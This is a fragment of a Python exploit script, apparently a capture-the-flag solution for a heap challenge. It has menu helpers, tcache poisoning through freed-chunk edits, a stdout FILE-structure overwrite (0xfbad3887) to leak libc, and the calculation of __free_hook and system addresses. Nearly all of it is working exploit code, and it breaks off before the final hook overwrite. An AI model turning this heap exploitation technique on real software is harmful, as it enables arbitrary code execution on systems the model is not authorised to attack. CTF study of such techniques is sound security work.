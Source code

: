 ```python
        sla("\n", content)


    def edit(idx, content):
        cmd(2)
        sla("\n", str(idx))
        sla("\n", content)

    def talk(idx):
        cmd(3)
        sla("\n", str(idx))
        ru("Baby said: ! @ # $ % ^ & * ( ")
        c1 = ru("\n")[:-1]
        ru("Continued the baby: ! @ # $ % ^ & * ( ")
        c2 = ru("\n")[:-1]
        return c1,c2

    def free(idx):
        cmd(4)
        sla("\n", str(idx))

    def dd():
        if DEBUG:
            cmd = ""
            cmd += "b *%d\n" % (base+0x1585)
            cmd += "set $a=%d\n" % (base+0x4080)
            # cmd = 'set $a=%d\n'%(base+0x4060) # bullet_ptr[0x13]
            # cmd += "set $b=%d\n"%(base+0x4050) # bullet_list
            # cmd += "set $c=%d\n"%(base+0x4010) # remain size
            # cmd += "b *%d\n" % (base+0x167B) # break at free
            debug(cmd)

    for i in range(8):
        add(i, 0xa0, "ILoveC")

    # idx = 7, last

    for i in range(7):
        free(i)
    edit(6, "a"*16)
    free(6)


    cmd(2)
    sla("\n", str(6))
    sa("\n", '\xa0\x16')
    sleep(1)

    add(0, 0xa0, "ILoveC")

    cmd(1)
    try:
        sla("\n", str(1))
        sla("\n", str(0xa0))
        sa("\n", p64(0xfbad3887)+p64(0)*3+'\x00')
        libc_base = l64() + 0x1eb980 - 0x3d7300
    except:
        p.close()
        return 1

    free_hook = libc.symbols['__free_hook'] + libc_base
    system_addr = libc.symbols['system'] + libc_base
    arena_addr = 0x1ebbe0 + libc_base
```